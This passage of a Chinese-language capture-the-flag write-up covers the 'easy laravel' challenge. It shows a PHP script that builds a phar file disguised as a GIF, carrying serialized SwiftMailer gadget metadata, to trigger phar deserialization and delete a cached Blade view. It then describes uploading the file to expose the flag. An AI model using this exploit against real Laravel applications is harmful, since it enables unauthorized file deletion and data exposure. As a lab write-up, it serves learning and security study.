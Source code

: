 可以发现其实是基于路径的 sha1 值，但是服务器上的路径在哪儿呢，在使用管理员身份登录后，可以看到一条note 

![](/img/hwb2018-easy-laravel-writeup/20181014093727.png)

使用了nginx的默认配置，那么flag文件的完整路径就是 `/usr/share/nginx/html/resources/views/auth/flag.blade.php`，经过sha1后得到 34e41df0934a75437873264cd28e2d835bc38772.php

写一个payload生成phar文件

```php
<?php

    $filepath = '/usr/share/nginx/html/resources/views/auth/flag.blade.php';
    require '/usr/share/nginx/html/vendor/autoload.php';
    $obj = new Swift_ByteStream_TemporaryFileByteStream();
    $a = serialize($obj);
    $a = preg_replace('/\/tmp\/FileByteStream[a-zA-Z0-9]{6}/', sha1(xxx), $a);
    $a = str_replace('25', '90', $a);
    $b = unserialize($a);
    $p = new Phar('./1.phar', 0);
    $p->startBuffering();
    $p->setStub('GIF89a<?php __HALT_COMPILER(); ?>');
    $p->setMetadata($b);
    $p->addFromString('1.txt','text');
    $p->stopBuffering();
    rename('./1.phar', '1.gif');
?>
```

然后上传1.gif，check的时候传入自定义的path和filename，然后访问/flag ，得到flag

![](/img/hwb2018-easy-laravel-writeup/20181014093640.png)

![](/img/hwb2018-easy-laravel-writeup/20181014093657.png)